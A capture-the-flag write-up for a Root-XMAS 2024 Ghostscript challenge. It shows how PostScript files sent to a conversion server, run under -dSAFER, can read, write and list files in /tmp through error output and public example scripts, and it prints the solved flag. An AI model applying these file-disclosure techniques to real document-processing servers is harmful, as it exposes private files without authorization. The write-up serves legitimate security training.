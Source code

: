 ```yaml
---
title: Root-XMAS 2024 Day 17 - Ghost in the shell
feed: hide
permalink: /RootXMAS_2024_17
date: 17-12-2024
summary: complex stand-alone
---
```

### summary

Lots of vulnerabilities are available on Ghostscript, but sometimes features are enough: you can list files in a folder with a Ghostscript file!
### recon

We have our own instance of a server which we can send a Postscript/Ghostscript file, and he will return a PDF file (base64 encoded). We need to get the content of a file which we don't have the name in `/tmp`

sending the example file given in the challenge readme, we are returned a PDF, but also the version of Ghostscript!

```bash
cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:31489 
GPL Ghostscript 9.53.3 (2020-10-01)
Copyright (C) 2020 Artifex Software,
```

Damn, a 4 years old binary, let's check... wow, there are [lots of](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/) [very different](https://www.vicarius.io/vsociety/posts/cve-2023-36664-command-injection-with-ghostscript-poc-exploit) [RCE vunerabilities](https://offsec.almond.consulting/ghostscript-cve-2023-28879.html)!

And you know what? after testing them all, recompiling the correct version of Ghostscript on my machine to craft a special payload... none of them worked. And the solution was much simpler.

Of course, I tried reading and writing files with a simple script like this, found on this ["File io" question on Stackoverflow](https://stackoverflow.com/a/25702652)

```ghostscript
/outfile1 (/tmp/output1.txt) (w) file def
outfile1 (hello world) writestring
outfile1 closefile 

/inputfile (/tmp/output1.txt) (r) file def
inputfile 100 string readstring
show inputfile
pop
inputfile closefile

showpage
```

It happens that this script does not really work, as it doesn't produce a valid PDF, but still we have the content of our file in the error output:

```bash
cat test_write_read.ps | socat - TCP:dyn-01.xmas.root-me.org:31489
	...
	Error: /typecheck in --show--
	Operand stack:
	   (hello world\n)   false
   ...
```

we also know that the `-dSAFER` option of Ghostscript is used, as we have an `/invalidfileaccess` error if we try to access any file outside of `/tmp`. Thankfully the flag is in this directory! 

Still, we have no way to list files in a directory... I searched online and found few documentation, and ChatGPT ensured me there was no way to do it... dirty liar!
### solution

I skimmed a bit too much one specific article of the [redteam-pentesting.de blog : "Better dSAFER than Sorry"](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

At first they talk about the latest CVEs I tried, but after they provide examples of script that allow... to list files in a directory!

Let's just go on their  [RedTeamPentesting/postscript_blog_examples repo](https://github.com/RedTeamPentesting/postscript_blog_examples) to download them.

```bash
cat list_files.ps | socat - TCP:dyn-01.xmas.root-me.org:31489 |\
tail -n 1 | base64 -d > res.pdf && evince res.pdf

	/tmp/gs_JHGIAL
	...
	/tmp/flag-9fb215456edead...9d.txt
```

We just change the end of the `print_file.ps` to add the path of our flag file, and we're done!

```bash
cat print_file.ps | socat - TCP:dyn-01.xmas.root-me.org:31489 |\
tail -n 1 | base64 -d > res.pdf && evince res.pdf

	RM{Gh0Scr1pt_c4n_d0_THIS??}
```




| Previous day | [[Day 16 - Coil under the tree]] |
| ------------ | -------------------------------- |
| Next day     | [[Day 18 - Santa's sweet words]] |